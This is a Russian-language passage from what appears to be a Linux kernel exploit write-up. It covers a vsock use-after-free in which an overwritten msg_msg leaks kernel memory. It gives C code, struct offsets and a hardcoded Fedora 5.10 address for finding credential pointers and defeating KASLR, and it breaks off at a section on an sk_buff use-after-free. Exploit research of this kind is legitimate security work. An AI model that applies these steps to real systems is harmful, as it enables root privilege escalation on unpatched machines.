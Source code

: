 ![](T0140baae964febb059.png "T0140baae964febb059.png")

Прочтите содержимое объекта ядра vsock_sock в пользовательское пространство, получив сообщение из очереди сообщений, в которой хранится перезаписанный msg_msg:

    ret = msgrcv(msg_locations[0].msq_id, kmem, ARB_READ_SZ, 0,
                    IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

Найдите цель атаки
------------------

Вот что я нашел: 1. Выделенный блочный кеш, такой как PINGv6 и sock_inode_cache, имеет много указателей на объекты. 2. Указатель struct mem_cgroup \* sk_memcg находится по смещению 664 в vsock_sock.sk. Структура mem_cgroup размещается в блочном кеше kmalloc-4k. 3. Указатель владельца const struct cred \* находится по смещению 840 vsock_sock.sk и хранит адрес учетных данных, которые могут быть перезаписаны для повышения разрешения. 4. Указатель функции void (\* sk_write_space) (struct sock \*) находится по смещению 688 vsock_sock.sk и установлен на адрес функции ядра sock_def_write_space (). Его можно использовать для расчета смещения KASLR.

Вот как уязвимость извлекает эти указатели из памяти:

    #define SK_MEMCG_RD_LOCATION    (DATALEN_MSG + SK_MEMCG_OFFSET)
    #define OWNER_CRED_OFFSET    840
    #define OWNER_CRED_RD_LOCATION    (DATALEN_MSG + OWNER_CRED_OFFSET)
    #define SK_WRITE_SPACE_OFFSET    688
    #define SK_WRITE_SPACE_RD_LOCATION (DATALEN_MSG + SK_WRITE_SPACE_OFFSET)
    /*
     * From Linux kernel 5.10.11-200.fc33.x86_64:
     *   function pointer for calculating KASLR secret
     */
    #define SOCK_DEF_WRITE_SPACE    0xffffffff819851b0lu
    unsigned long sk_memcg = 0;
    unsigned long owner_cred = 0;
    unsigned long sock_def_write_space = 0;
    unsigned long kaslr_offset = 0;

    /* ... */

        sk_memcg = kmem[SK_MEMCG_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sk_memcg %lx (offset %ld in the leaked kmem)\n",
                sk_memcg, SK_MEMCG_RD_LOCATION);

        owner_cred = kmem[OWNER_CRED_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found owner cred %lx (offset %ld in the leaked kmem)\n",
                owner_cred, OWNER_CRED_RD_LOCATION);

        sock_def_write_space = kmem[SK_WRITE_SPACE_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sock_def_write_space %lx (offset %ld in the leaked kmem)\n",
                sock_def_write_space, SK_WRITE_SPACE_RD_LOCATION);

        kaslr_offset = sock_def_write_space - SOCK_DEF_WRITE_SPACE;
        printf("[+] Calculated kaslr offset: %lx\n", kaslr_offset);

Реализуйте Use-after-free на sk_buff
-------------------------------------
